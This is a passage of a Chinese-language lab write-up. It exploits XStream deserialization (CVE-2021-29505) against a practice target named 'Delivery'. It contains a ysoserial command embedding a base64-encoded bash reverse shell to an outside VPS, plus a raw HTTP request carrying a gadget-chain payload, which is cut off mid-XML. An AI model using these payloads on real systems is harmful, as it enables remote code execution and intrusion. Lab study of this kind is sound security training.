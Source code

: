 进击下一个，来到 `Delivery` 靶标，看解的人数还行。1 沙烁直接开干，总体打的挺舒服的

*靶标介绍：*

在这个靶场中，您将扮演一名渗透测试工程师，受雇于一家名为 Delivery 的小型科技初创公司，并对该公司进行一次渗透测试。你的目标是成功获取域控制器权限，以评估公司的网络安全状况。该靶场共有 4 个 Flag，分布于不同的靶机。

### Xstream RCE

这个一开始不够仔细，注意需要修改两处地址。来源漏洞

XStream 是一个轻量级、简单易用的开源 Java 类库，它主要用于将对象序列化成 XML（JSON）或反序列化为对象。

XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用 `sun.rmi.registry.RegistryImpl_Stub` 构造 RMI 请求，进而执行任意命令。

[https://github.com/vulhub/vulhub/blob/master/xstream/CVE-2021-29505/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/xstream/CVE-2021-29505/README.zh-cn.md)

VPS 监听 1099 端口，开启服务

```plain
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMjI5LjE1OC40MC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}"
```

[![](assets/1710899037-979d2091be15249ca430d78185df9a66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205137-f1829a3a-d56e-1.png)

burp 传参接口 `/just_sumbit_it`，注意修改 VPS 地址

```plain
POST /just_sumbit_it HTTP/1.1
Host: 39.99.154.52:8080
Content-Length: 3119
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://39.99.154.52:8080
Referer: http://39.99.154.52:8080//
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
```